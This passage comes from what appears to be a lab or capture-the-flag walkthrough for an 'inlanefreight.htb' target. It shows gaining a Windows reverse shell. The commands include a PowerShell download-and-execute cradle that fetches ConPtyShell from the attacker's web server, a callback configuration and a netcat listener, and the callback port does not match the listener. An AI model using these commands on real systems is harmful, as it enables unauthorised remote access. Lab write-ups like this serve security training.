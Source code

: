 ```python

```
```python
❯ python3 pseudo-rce.py -p http://inlanefreight.htb/dashboard/pawned.php
RCE $>>   
```

- 11 Using ConPtyShell from antoniococo [[https://github.com/antonioCoco/ConPtyShell|Github]]:

```sh
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 
```

- 12 In the script at last line, you can put this code and set the configuration of your machine and listeting port. Rows and columns is the size of your terminal, in my case is 48 and 162, you can use ("stty size") in your terminal to see yours.

```powershell
Invoke-ConPtyShell -RemoteIp <yourIp> -RemotePort 666 -Rows 48 -Cols 162
```


- 13 Preparing the Web server and listening with netcat:

```sh
python3 -m http.server 80
```

```sh
nc -nlvp 1234
```

![alt text](/5.png)

- 14 download the shell from the target machine

```python
RCE $>> powershell -Command "IEX (New-Object Net.WebClient).DownloadString(http://<Ip>/Invoke-ConPtyShell.ps1)"
```

![alt text](/6.png)

- 15 Searching the flag:

![alt text](/7.png)
